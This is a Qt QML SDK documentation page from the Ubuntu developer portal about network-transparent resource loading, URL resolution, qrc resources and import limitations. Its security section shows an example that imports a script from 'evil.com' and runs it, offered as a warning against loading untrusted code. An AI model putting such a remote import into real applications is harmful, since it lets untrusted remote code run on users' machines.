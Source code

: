 <a href="https://developer.ubuntu.com/" class="logo-ubuntu"><img src="https://developer.ubuntu.com/assets/sites/ubuntu/latest/u/img/logos/logo-ubuntu-orange.svg" width="106" height="25" /> <span>developer</span></a>

-   [Jump to content](index.html#main-content)
-   [Desktop](https://developer.ubuntu.com/en/desktop/)
-   [Phone](https://developer.ubuntu.com/en/phone/)
-   [Core](https://developer.ubuntu.com/core)
-   [Community](https://developer.ubuntu.com/en/community/)
-   [Publish](https://developer.ubuntu.com/en/publish/)
-   [My Apps](https://myapps.developer.ubuntu.com/)

Search

<img src="https://developer.ubuntu.com/assets/sites/ubuntu/latest/u/img/search-white.svg" alt="Search" height="28" />

-   [APIs](../../../../index.html) ›
-   [Apps](../../../index.html) ›
-   [QML](../../index.html) ›
-   <a href="../index.html" class="sub-nav-item">SDK 15.04.6</a> ›
-   <a href="../QtQml/index.html" class="sub-nav-item">QtQml</a> ›

<!-- -->

-   Resource Loading and Network Transparency

Resource Loading and Network Transparency
=========================================

<span class="subtitle"></span>
<span id="details"></span>
QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:

``` qml
Image {
    source: "http://www.example.com/images/logo.png"
}
```

Since a *relative* URL is the same as a relative file, development of QML on regular file systems remains simple:

``` qml
Image {
    source: "images/logo.png"
}
```

Network transparency is supported throughout QML, for example:

-   Fonts - the `source` property of FontLoader is a URL
-   WebViews - the `url` property of WebView (obviously!)

Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load `http://example.com/mystuff/Hello.qml` and that content refers to a type "World", the engine will load `http://example.com/mystuff/qmldir` and resolve the type just as it would for a local file. For example if the qmldir file contains the line "World World.qml", it will load `http://example.com/mystuff/World.qml` Any other resources that `Hello.qml` referred to, usually by a relative URL, would similarly be loaded from the network.

<span id="relative-vs-absolute-urls"></span>
Relative vs. Absolute URLs
--------------------------

Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.

For example, consider this content in `http://example.com/mystuff/test.qml`:

``` qml
Image {
    source: "images/logo.png"
}
```

The Image source property will be assigned `http://example.com/mystuff/images/logo.png`, but while the QML is being developed, in say `C:\User\Fred\Documents\MyStuff\test.qml`, it will be assigned `C:\User\Fred\Documents\MyStuff\images\logo.png`.

If the string assigned to a URL is already an absolute URL, then "resolving" does not change it and the URL is assigned directly.

<span id="qrc-resources"></span>
QRC Resources
-------------

One of the URL schemes built into Qt is the "qrc" scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:

``` cpp
    QQuickView *view = new QQuickView;
    view->setUrl(QUrl("qrc:/dial.qml"));
```

The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.

<span id="limitations"></span>
Limitations
-----------

The `import` statement is only network transparent if it has an "as" clause.

More specifically:

-   `import "dir"` only works on local file systems
-   `import libraryUri` only works on local file systems
-   `import "dir" as D` works network transparently
-   `import libraryUrl as U` works network transparently

<span id="implications-for-application-security"></span>
Implications for Application Security
-------------------------------------

The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.

In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:

``` qml
import QtQuick 2.0
import "http://evil.com/evil.js" as Evil
Component {
    onLoaded: Evil.doEvil()
}
```

This is equivalent to downloading and executing "http://evil.com/evil.exe". **The QML engine will not prevent particular resources from being loaded**. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.

As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. **Do not, for example, use `import`, Loader or [XMLHttpRequest](../QtQml.qtqml-javascript-qmlglobalobject/index.html#xmlhttprequest) to load any untrusted code or content.**

[Back to top](index.html#)

-   [Desktop](https://developer.ubuntu.com/en/desktop/)
    ---------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/desktop/)
    -   [Get started](http://snapcraft.io/?utm_source=developer.ubuntu.com&utm_medium=devportal&utm_term=snaps%20snapcraft%20desktop&utm_content=menu&utm_campaign=duc_snappers)
    -   [Examples](https://github.com/ubuntu/snappy-playpen)

-   [Phone](https://developer.ubuntu.com/en/phone/)
    -----------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/phone/)
    -   [Scopes](https://developer.ubuntu.com/en/phone/scopes/)
    -   [Apps](https://developer.ubuntu.com/en/phone/apps/)
    -   [Web Apps](https://developer.ubuntu.com/en/phone/web/)
    -   [Platform](https://developer.ubuntu.com/en/phone/platform/)
    -   [Devices](https://developer.ubuntu.com/en/phone/devices/)

-   [Core](https://developer.ubuntu.com/core)
    -----------------------------------------

    -   [Overview](https://developer.ubuntu.com/core)
    -   [Get started](https://developer.ubuntu.com/core/get-started)
    -   [Tutorials](https://developer.ubuntu.com/core/tutorials)
    -   [Examples](https://developer.ubuntu.com/core/examples)
    -   [Publish and distribute](https://developer.ubuntu.com/core/publish-and-distribute)
    -   [Documentation](https://developer.ubuntu.com/core/documentation)
    -   [Troubleshooting](https://developer.ubuntu.com/core/troubleshooting)

-   [Community](https://developer.ubuntu.com/en/community/)
    -------------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/community/)
    -   [App development training](https://developer.ubuntu.com/en/community/training/)
    -   [Core apps](https://developer.ubuntu.com/en/community/core-apps/)
    -   [Blog](https://developer.ubuntu.com/en/community/blog/)

-   [Publish](https://developer.ubuntu.com/en/publish/)
    ---------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/publish/)
    -   [Application states](https://developer.ubuntu.com/en/publish/application-states/)
    -   [Packaging click apps](https://developer.ubuntu.com/en/publish/packaging-click-apps/)
    -   [Creating a good icon](https://developer.ubuntu.com/en/publish/creating-a-good-icon/)
    -   [Web](https://developer.ubuntu.com/en/publish/web/)
    -   [Security policy groups](https://developer.ubuntu.com/en/publish/security-policy-groups/)
    -   [Choosing a license](https://developer.ubuntu.com/en/publish/choosing-a-license/)
    -   [Other forms of submitting apps](https://developer.ubuntu.com/en/publish/other-forms-of-submitting-apps/)
    -   [Scopes](https://developer.ubuntu.com/en/publish/scopes/)

-   View in:
    --------

    -   [English](index.html "Change to language: English")
    -   [Simplified Chinese](index.html "Change to language: Simplified Chinese")

-   [Download](http://ubuntu.com/download/)
    ---------------------------------------

    -   [Overview](http://ubuntu.com/download)
    -   [Cloud](http://ubuntu.com/download/cloud)
    -   [Server](http://ubuntu.com/download/server)
    -   [Desktop](http://ubuntu.com/download/desktop)
    -   [Ubuntu Kylin](http://ubuntu.com/download/ubuntu-kylin)
    -   [Alternative downloads](http://ubuntu.com/download/alternative-downloads)

-   [Support](http://ubuntu.com/support/)
    -------------------------------------

    -   [Overview](http://ubuntu.com/support)
    -   [Security notices](http://www.ubuntu.com/usn/)

-   [About](http://ubuntu.com/about/)
    ---------------------------------

    -   [About Ubuntu](http://ubuntu.com/about/about-ubuntu)
    -   [Careers](http://www.canonical.com/careers)
    -   [Canonical and Ubuntu](http://ubuntu.com/about/canonical-and-ubuntu)
    -   [Contact us](http://ubuntu.com/about/contact-us)
    -   [Canonical news feed](http://insights.ubuntu.com/feed/)

© 2015 Canonical Ltd. Ubuntu and Canonical are registered trademarks of Canonical Ltd.

-   [Legal information](http://www.ubuntu.com/legal)
-   [Report a bug on this site](https://bugs.launchpad.net/developer-ubuntu-com/)

<span class="accessibility-aid">[Go to the top of the page](index.html#)</span>
